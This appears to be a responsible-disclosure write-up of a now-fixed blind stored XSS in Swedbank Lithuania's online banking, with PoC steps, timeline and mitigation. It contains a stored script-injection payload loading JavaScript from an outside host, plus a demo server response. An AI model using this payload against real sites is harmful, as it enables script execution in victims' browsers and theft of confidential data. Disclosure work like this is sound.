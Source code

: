 Blind Stored Cross-Site-Scripting (XSS) in Swedbank Retail Banking
==================================================================

Description
-----------
Regular authenticated internet banking users can include arbitrary input within bank’s account name. 
This makes internet banking application hosted at https://www.swedbank.lt/private vulnerable to a blind Stored Cross-Site-Scripting attack (XSS). 

A malicious actor would first place arbitrary javascript payload within their bank account name. 
Once it is accessed by another party - for example banking personnel, call centre stuff etc. attacker-controlled javascript code would be executed within the context of the victim browser.
This could then be used to both leak confidential information and perform escalation of privillege attacks.

Proof-of-Concept
----------------

Authenticate to the web application and open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases

`pageId = private.home.important.aliases`

Include following javascript code within your bank account name and save changes:
```
A<script src=“//p0wn.eu”></script>
```

*Note* To make an isolated check from external network a simple trick can be used:
Point domain used within payload to the IP address you control and save the entry within system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
```
1. Privatiems ▸
2. Kasdienės paslaugos ▸
3. Apžvalga
```

(English)
```
1. Private ▸
2. Everyday banking ▸
3. My finances
```
Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview

Or in mobile application goto
```
1. Paslaugos ▸
2. Kitos paslaugos ▸
3. Mano finansų apžvalga
```

(English)
```
1. Services ▸
2. Other services ▸ 
3. Summary of my finances
```

Then the payload is executed (pictures included).
Desktop (browser):
![Stored XSS attack](https://i.imgur.com/QRLirjN.png)

Mobile:
![Stored XSS attack on mobile app](https://i.imgur.com/4bezvvo.jpeg)

Unfiltered user input and failure to sanitize output in the web content leads to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center stuff etc.) browser.

Payload of the server's `p0wn.eu` content:
```
HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
```
Mitigation
----------
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference
---------
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html


TIMELINE
--------
```
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 PUBLIC RELEASE
```
